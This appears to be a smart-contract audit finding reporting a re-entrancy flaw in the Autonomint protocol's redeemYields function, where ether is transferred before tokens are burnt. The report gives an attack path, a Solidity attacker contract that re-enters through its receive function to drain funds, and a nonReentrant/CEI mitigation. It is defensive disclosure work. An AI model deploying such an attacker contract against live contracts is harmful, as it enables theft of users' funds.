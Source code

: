 Dry Brown Cheetah

High

# `borrowing::redeemYields` is prone to re-entrancy leading to loss of funds

### Summary

The [`borrowing::redeemYields`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L318) is used to redeem yields by burning abond tokens.
However, the [`BorrowLib::redeemYields`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/lib/BorrowLib.sol#L978) does not follow CEI pattern, transferring ether before burning the abond tokens.
```solidity
function redeemYields(
        address user,
        uint128 aBondAmount,
        address usdaAddress,
        address abondAddress,
        address treasuryAddress,
        address borrow
    ) public returns (uint256) {
       
        // withdraw eth from ext protocol
        uint256 withdrawAmount = treasury.withdrawFromExternalProtocol(user,aBondAmount); <@ - // The ether is transferred to the user here

        //Burn the abond from user
        bool success = abond.burnFromUser(msg.sender, aBondAmount); <@ - // The tokens are burnt later
        if (!success) revert IBorrowing.Borrow_BurnFailed();

        return withdrawAmount;
    }
```
Hence, this allows an attacker to withdraw as much ether as possible by re-entering.

### Root Cause

In [`borrowing.sol:321`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L321), there is a lack of `nonReentrant` modifier or any sort of re-entrancy protection mechanism like CEI.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. User deploys an attacker contract that calls the `borrowing::redeemYields` with it's own address.
2. This attacker contract will receive ether as the `treasury::withdrawFromExternalProtocol` is called inside the `borrower::redeemYields`
3. The attacker contract re-enters by calling `borrowing::redeemYields`.
4. This allows multiple redeems without burning the abond tokens more than once.

### Impact

1. Allows attacker to drain funds by leveraging re-entrancy avoiding burning much abond tokens.

### PoC

Below is a sample re-entrancy contract that can be used
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBorrowing {
    function redeemYields(address user, uint128 aBondAmount) external returns (uint256);
}

contract MaliciousAttacker {
    IBorrowing public borrowingContract;
    uint128 public aBondAmount;
    bool private isReentering;
    address public owner;

    constructor(address _borrowingContract) {
        borrowingContract = IBorrowing(_borrowingContract);
    }

    // Function to initiate the attack
    function initiateReentry(uint128 _aBondAmount) external payable {

        aBondAmount = _aBondAmount;
        isReentering = true;

        // First call to redeemYields
        borrowingContract.redeemYields(address(this), aBondAmount);
    }

    // This receive function will be triggered when ETH is received
    receive() external payable {
        if (isReentering && address(borrowingContract).balance > 0) {
            isReentering = false; // Prevent infinite recursion
            borrowingContract.redeemYields(address(this), aBondAmount);
        }
    }

}
```

### Mitigation

It is recommended to use a `nonReentrant` modifier and implement CEI pattern.